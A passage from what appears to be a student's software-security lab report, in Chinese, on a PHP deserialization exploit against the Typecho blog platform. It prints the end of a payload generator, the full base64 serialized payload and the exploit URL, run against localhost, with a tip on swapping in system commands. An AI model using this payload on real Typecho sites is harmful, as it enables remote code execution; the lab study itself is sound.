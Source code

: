 ```php
    'adapter' => new Typecho_Feed()
);
echo base64_encode(serialize($exp));
?>
```

**解析：**

- 上述代码中用到了 `PHP` 的 `assert()`函数，如果该函数的参数是字符串，那么该字符串会被 `assert()`当做 `PHP` 代码执行，这一点和 `PHP` 一句话木马常用的 `eval()`函数有相似之处。
- `phpinfo();`便是我们执行的 `PHP` 代码，如果想要执行系统命令，将 `phpinfo();`替换为`system(‘ls’);`即可，注意最后有一个分号。
- 访问 `exp.php` 便可以获得 `payload`，通过 `get`请求的方式传递给 `typecho.php` 后，`phpinfo()`成功执行。



## 3 访问exe.php

​	查看对应的文件夹，我们发现两个php文件均建立完毕。

<img src="E:\学学学\本科\大二下\软件安全\软件安全_实验_2211044_陆皓喆\Lab13\Lab13_2211044_陆皓喆.assets\image-20240502184040845.png" alt="image-20240502184040845" style="zoom:50%;" />

​	在建立完前面两个`php`文件之后，我们就开始进行访问。

​	我们打开浏览器，输入网址：http://127.0.0.1/exe.php，这样就可以访问我们前面新建的exe.php文件了，打开来发现出现了这样的内容：

![image-20240502184220325](E:\学学学\本科\大二下\软件安全\软件安全_实验_2211044_陆皓喆\Lab13\Lab13_2211044_陆皓喆.assets\image-20240502184220325.png)

​	我们将其中的内容粘贴下来，如下所示：

```
YToxOntzOjc6ImFkYXB0ZXIiO086MTI6IlR5cGVjaG9fRmVlZCI6MTp7czoxODoiAFR5cGVjaG9fRmVlZABpdGVtIjthOjE6e3M6NjoiYXV0aG9yIjtPOjE1OiJUeXBlY2hvX1JlcXVlc3QiOjI6e3M6MjQ6IgBUeXBlY2hvX1JlcXVlc3QAX3BhcmFtcyI7YToxOntzOjEwOiJzY3JlZW5OYW1lIjtzOjk6InBocGluZm8oKSI7fXM6MjQ6IgBUeXBlY2hvX1JlcXVlc3QAX2ZpbHRlciI7YToxOntpOjA7czo2OiJhc3NlcnQiO319fX19
```

​	不难发现，这串字符串就是我们所需要的`payload`！



## 4 执行typecho.php

​	在得到我们的payload之后，我们就可以去执行前面第一个php文件了。我们利用GET的方式，将这串payload传给typecho.php文件，URL如下所示：

```php+HTML
http://127.0.0.1/typecho.php?
__typecho_config=YToxOntzOjc6ImFkYXB0ZXIiO086MTI6IlR5cGVjaG9fRmVlZCI6MTp7czoxODoiAFR
5cGVjaG9fRmVlZABpdGVtIjthOjE6e3M6NjoiYXV0aG9yIjtPOjE1OiJUeXBlY2hvX1JlcXVlc3QiOjI6e3M
6MjQ6IgBUeXBlY2hvX1JlcXVlc3QAX3BhcmFtcyI7YToxOntzOjEwOiJzY3JlZW5OYW1lIjtzOjk6InBocGl
uZm8oKSI7fXM6MjQ6IgBUeXBlY2hvX1JlcXVlc3QAX2ZpbHRlciI7YToxOntpOjA7czo2OiJhc3NlcnQiO31
9fX19
```

​	我们利用该URL进行传输之后，获得以下的结果：

<img src="E:\学学学\本科\大二下\软件安全\软件安全_实验_2211044_陆皓喆\Lab13\Lab13_2211044_陆皓喆.assets\image-20240502190134428.png" alt="image-20240502190134428" style="zoom: 33%;" />
